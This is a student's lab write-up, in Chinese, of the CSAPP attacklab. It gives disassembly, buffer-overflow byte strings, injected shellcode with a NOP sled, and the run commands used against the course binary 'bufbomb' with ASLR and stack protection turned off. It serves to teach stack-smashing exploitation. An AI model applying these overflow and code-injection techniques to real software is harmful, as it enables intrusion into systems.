




## Lab3 Attacklab

>notes：这个 Lab 源自 CMU 的 CSAPP 中的 attacklab
>
>姓名：李宇哲
>
>学号：SA25011049

cookie：



对于所有level，执行的方式为

```shell
./sendstring < exploit_levelx.txt > exploit-raw.txt   
setarch $(uname -m) -R ./bufbomb -t SA25011049 < exploit-raw.txt
```

同时每个 exploit_levelx.txt 需要严格把bytes都放在第一行，否则会读入换行符导致错误。

### level0 Candle

根据 ppt 文档要求，这部分要求跳转到  smoke 函数，首先对 bufbomb 反汇编，得到一个地址，得到对应函数的地址

```assembly
08048e20 <smoke>:
 8048e20:	55                   	push   %ebp
 8048e21:	89 e5                	mov    %esp,%ebp
 8048e23:	83 ec 08             	sub    $0x8,%esp
 8048e26:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e2d:	e8 6e fb ff ff       	call   80489a0 <entry_check>
 8048e32:	c7 04 24 47 9a 04 08 	movl   $0x8049a47,(%esp)
 8048e39:	e8 d6 f8 ff ff       	call   8048714 <puts@plt>
 8048e3e:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e45:	e8 96 fc ff ff       	call   8048ae0 <validate>
 8048e4a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048e51:	e8 4e f9 ff ff       	call   80487a4 <exit@plt>
 8048e56:	8d 76 00             	lea    0x0(%esi),%esi
 8048e59:	8d bc 27 00 00 00 00 	lea    0x0(%edi,%eiz,1),%edi
```

`getbuf` 函数

```assembly
08048fe0 <getbuf>:
 8048fe0:	55                   	push   %ebp
 8048fe1:	89 e5                	mov    %esp,%ebp
 8048fe3:	83 ec 18             	sub    $0x18,%esp
 8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048fe9:	89 04 24             	mov    %eax,(%esp)
 8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
 8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax
 8048ff6:	c9                   	leave  
 8048ff7:	c3                   	ret    
 8048ff8:	90                   	nop
 8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
```

可以得知，缓冲区大小是 12 bytes 的，4字节报错的 ebp，因此需要覆盖 16 字节的空间，同时按照小端序添加 smoke地址 `0x08048e20`，得到结果如下：

```assembly
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 8e 04 08
```



>这里 send email 失败是因为没有连接 CMU 的 grading server

### level1 Sparkler

x先看 fizz 函数的汇编信息

```assembly
08048dc0 <fizz>:
 8048dc0:	55                   	push   %ebp
 8048dc1:	89 e5                	mov    %esp,%ebp
 8048dc3:	53                   	push   %ebx
 8048dc4:	83 ec 14             	sub    $0x14,%esp
 8048dc7:	8b 5d 08             	mov    0x8(%ebp),%ebx
 8048dca:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048dd1:	e8 ca fb ff ff       	call   80489a0 <entry_check>
 8048dd6:	3b 1d cc a1 04 08    	cmp    0x804a1cc,%ebx
 8048ddc:	74 22                	je     8048e00 <fizz+0x40>
 8048dde:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048de2:	c7 04 24 98 98 04 08 	movl   $0x8049898,(%esp)
 8048de9:	e8 76 f9 ff ff       	call   8048764 <printf@plt>
 8048dee:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048df5:	e8 aa f9 ff ff       	call   80487a4 <exit@plt>
 8048dfa:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 8048e00:	89 5c 24 04          	mov    %ebx,0x4(%esp)
 8048e04:	c7 04 24 29 9a 04 08 	movl   $0x8049a29,(%esp)
 8048e0b:	e8 54 f9 ff ff       	call   8048764 <printf@plt>
 8048e10:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048e17:	e8 c4 fc ff ff       	call   8048ae0 <validate>
 8048e1c:	eb d0                	jmp    8048dee <fizz+0x2e>
 8048e1e:	89 f6                	mov    %esi,%esi
```

fizz 从 `0x(%ebp)` 读取参数，当 getbuf 返回时，栈上 `0x8(%esp)`位置是参数，因此可以设计如下的字符串进行攻击

```
[12 bytes padding] + [4 bytes padding] + [fizz 地址] + [4字节填充] + [cookie]
```

对应原始字符串如下：

```assembly
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 8d 04 08 00 00 00 00 84 8d ae 11
```

攻击结果如下：



### level2 Firecracker（选做）

先看一下 **bang** 函数的汇编代码

```assembly
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
 8048d7f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048d83:	c7 04 24 0b 9a 04 08 	movl   $0x8049a0b,(%esp)
 8048d8a:	e8 d5 f9 ff ff       	call   8048764 <printf@plt>
 8048d8f:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048d96:	e8 09 fa ff ff       	call   80487a4 <exit@plt>
 8048d9b:	90                   	nop
 8048d9c:	8d 74 26 00          	lea    0x0(%esi,%eiz,1),%esi
 8048da0:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048da4:	c7 04 24 70 98 04 08 	movl   $0x8049870,(%esp)
 8048dab:	e8 b4 f9 ff ff       	call   8048764 <printf@plt>
 8048db0:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048db7:	e8 24 fd ff ff       	call   8048ae0 <validate>
 8048dbc:	eb d1                	jmp    8048d8f <bang+0x2f>
 8048dbe:	89 f6                	mov    %esi,%esi
```

这一个的攻击比较麻烦，需要使用代码注入：

- 先在缓冲区放置要注入的代码，修改 `0x804a1dc` 为自己的 cookie
- 跳转到 shellcode
- shellcode 执行后跳转到 bang

攻击的字符串就是

```
[shellcode] + [padding] + [buffer地址] +[bang地址]
```

shellcode 如下：

```assembly
# exploit.s
movl $0x11ae8d84, %eax     
movl %eax, 0x804a1dc       
pushl $0x08048d60          
ret                        
```

由于我试过很多个buffer 地址好像都不成立，我大概得到了一个buffer附近的地址然后填充nop滑动到对应的地址去，于是结果如下

```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 50 bd ff ff 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 b8 84 8d ae 11 a3 dc a1 04 08 68 60 8d 04 08 c3                
```

最终攻击成功



>这个部分确实需要用 execstack 接触栈执行限制，一开始没有解除之前大量出现segmentation fault

